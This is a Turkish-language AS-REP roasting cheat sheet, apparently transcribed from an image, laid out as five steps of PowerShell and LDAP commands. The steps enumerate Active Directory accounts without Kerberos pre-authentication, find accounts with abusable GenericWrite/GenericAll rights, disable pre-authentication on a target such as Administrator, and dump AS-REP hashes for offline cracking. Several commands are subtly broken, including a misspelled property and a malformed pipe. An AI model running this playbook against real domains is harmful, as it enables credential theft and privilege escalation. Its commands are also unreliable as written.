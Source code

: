 #### AD Modülü Kullanarak:
```powershell
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuths
```

#### LDAP Sorgusu Kullanarak:
```bash
(&(UserAccountControl:1.2.840.113556.1.4.803:=4194304)(!(UserAccountControl:1.2.840.113556.1.4.803:=2))(!(objectCategory=computer)))
```

**2. Suistimal Edilebilecek Kullanıcıları Bulma**

#### PowerView Kullanarak:
```powershell
Invoke-ACLScanner -ResolveGUIds | {$_.IdentityReferenceName -match "RDPUsers"}
```

#### GenericWrite Haklarını Bulma:
```powershell
Get-ObjectAcl -SamAccountName * -ResolveGUIDs | ? {($_.ActiveDirectoryRights -match 'GenericWrite')}
```

#### GenericAll Haklarını Bulma:
```powershell
Get-ObjectAcl -SamAccountName * -ResolveGUIDs | ? {($_.ActiveDirectoryRights -match 'GenericAll')}
```

#### SID İle Eşleşenleri Kontrol Etme:
```powershell
Get-ObjectAcl -SamAccountName * -ResolveGUIDs | ? {($_.ActiveDirectoryRights -match 'GenericWrite') -and ($_.SecurityIdentifier -match 'S-1-5-21-1087654965-336889418-4984984984-1501')}
```

**3. Pre-Auth Devre Dışı Bırakma**

#### PowerView Kullanarak:
```powershell
Set-DomainObject -Identity USER_NAME -XOR @{useraccountcontrol=4194304} -Verbose
```

#### AD Modülü Kullanarak:
```powershell
Set-ADAccountControl -Identity Administrator -doesnotrequirepreauth $true
```

**4. Değişiklikleri Doğrulama**

#### PreAuth Gerekmeyen Kullanıcıları Bulma:
```powershell
Get-DomainUser -PreAuthNotRequired -Verbose
```

**5. AS-REP Alma**

#### ASREPRoast.ps1 Kullanarak:
```powershell
Get-ASREPhash -Username USER_NAME -Verbose
Invoke-ASREPRoast -Verbose
```
